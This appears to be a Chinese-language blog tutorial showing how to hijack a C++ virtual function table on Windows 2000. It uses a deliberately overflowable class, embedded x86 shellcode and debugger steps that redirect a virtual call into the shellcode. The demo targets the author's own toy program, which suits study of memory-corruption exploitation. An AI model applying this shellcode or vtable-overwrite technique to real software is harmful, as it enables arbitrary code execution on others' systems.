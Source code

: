 ```yaml
---
layout:		post
title:		攻击C++的虚函数
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows 2000 Professional sp4  
>编译器: Visual C++ 6.0  
>调试器: OllyDbg 1.10  
<!-- more -->


### 0x00 前期准备

VC 6.0新建一个工程, 贴入以下代码, 选择release版本

```
#include <windows.h>
#include <iostream>
using namespace std;

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"
"\x90\x90\x90\x90";		# 通过调试确定shellcode的首地址, 被覆盖的虚表指针会指向这里

class myClass
{
public:
	char buf[200];
	virtual void test()
	{
		cout<<"Class Vtable::test()"<<endl;
	}
};

myClass overflow, *p;

int main()
{
	char *p_vtable;
	p_vtable=overflow.buf-4;
	printf("addr: 0x%08x\n",p_vtable);
	__asm int 3;
	
	p_vtable[0]=0xcc;
	p_vtable[1]=0x88;
	p_vtable[2]=0x40;
	p_vtable[3]=0x00;
	strcpy(overflow.buf, shellcode);

	p=&overflow;
	p->test();

	return 0;
}
```


### 0x01 exploit

运行*.exe, 弹出异常框, 选择取消自动调用OllyDbg附加调试, 虚表指针已经打印出来

![](/assets/img/exploit/2017-10-01-windows-2000-vtable/0x00.png)

单步到rep movsd, 内存区goto 0x00410dd8, 可以看到copy过去的数据

![](/assets/img/exploit/2017-10-01-windows-2000-vtable/0x01.png)
![](/assets/img/exploit/2017-10-01-windows-2000-vtable/0x02.png)

数据起始-4 byte(0x004088cc)是虚表指针, 将它修改为指向数据尾部的90909090(0x00410e5c)

![](/assets/img/exploit/2017-10-01-windows-2000-vtable/0x03.png)

同时将尾部90909090修改成指向shellcode的起始地址(0x00410ddc)

![](/assets/img/exploit/2017-10-01-windows-2000-vtable/0x04.png)

源码作如下修改

```
p_vtable[0]=0x5c;
p_vtable[1]=0x0e;
p_vtable[2]=0x41;
p_vtable[3]=0x00;
```

shellcode最后的4 byte修改成0x00410ddc

```
"\xdc\x0d\x41\x00"
```

注释掉int 3断点,再编译运行一遍, pwn~

![](/assets/img/exploit/2017-10-01-windows-2000-vtable/0x05.png)